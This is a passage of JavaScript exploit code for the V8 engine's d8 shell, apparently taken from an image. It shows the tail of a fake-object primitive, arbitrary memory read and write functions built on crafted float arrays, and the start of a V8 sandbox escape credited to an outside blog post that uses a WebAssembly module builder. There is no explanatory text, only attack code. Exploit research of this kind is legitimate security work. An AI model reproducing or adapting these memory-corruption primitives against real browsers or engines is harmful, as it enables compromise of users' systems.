 ```javascript
    // console.log("[*] obj_arr: 0x" + addrOf(obj_arr).toString(16));
    // bp();

    // dp(obj_arr);
    pre_fakeObj("pwn", float_arr, itof(addr));
    
    // console.log("[!] debug: expected obj_arr[0] = 0x" + addr.toString(16)); 
    // bp();

    return obj_arr[0];
}

// ===============================================
// AAR & AAW
// ===============================================
function weak_read(addr) {
    var arb_rw_arr = [(itof(0x725n << 32n)) + (float_arr_map), 1.2, 1.3, 1.4];
    
    // console.log("[*] read_addr: 0x" + addr.toString(16));
    // console.log("[*] arb_rw_arr: 0x" + addrOf(arb_rw_arr).toString(16));
    // dp(arb_rw_arr);
    
    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);

    // bp();
    if(fake == undefined) {
        return 0;
    }

    return ftoi(fake[0]);
}

function weak_write(addr, val) {
    var arb_rw_arr = [(itof(0x725n << 32n)) + (float_arr_map), 1.2, 1.3, 1.4];

    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);
    fake[0] = itof(val);
}

// ===============================================
// SANDBOX ESCAPE. FROM: https://ptr-yudai.hatenablog.com/entry/2024/07/09/115940
// ===============================================
d8.file.execute("wasm-module-builder.js");

const kHeapObjectTag = 1;
const kWasmTableObjectTypeOffset = 32;
const kRef = 9;
const kSmiTagSize = 1;
const kHeapTypeShift = 5;

const builder = new WasmModuleBuilder();
builder.exportMemoryAs("mem0", 0);
let $mem0 = builder.addMemory(1, 1);

let $struct = builder.addStruct([makeField(kWasmI64, true)]);
```